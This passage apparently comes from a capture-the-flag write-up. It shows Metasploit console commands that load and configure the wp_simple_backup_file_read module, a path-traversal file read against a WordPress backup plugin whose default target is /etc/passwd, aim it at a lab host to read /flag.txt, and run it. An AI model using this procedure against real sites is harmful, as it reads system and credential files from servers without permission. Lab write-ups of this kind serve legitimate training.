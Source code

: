 ## **Flag Retrieval**

Now, I'll be heading over to msf and typing the use as I see it from the link I just came from.
```
msf6 > use auxiliary/scanner/http/wp_simple_backup_file_read
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) >
```

Now, let's have a look at the options:
```
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.
```

The options that need setting are:
```
RHOSTS -> 94.237.54.116
RPORT -> 30811
FILEPATH -> /flag.txt
```

Set them as:
```
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.54.116
RHOSTS => 94.237.54.116
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 30811
RPORT => 30811
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
FILEPATH => /flag.txt
```

At this point, we're ready to get the flag:
```
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > run
[+] File saved in: /home/ghost/.msf4/loot/20250103105321_default_94.237.54.116_simplebackup.tra_269914.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

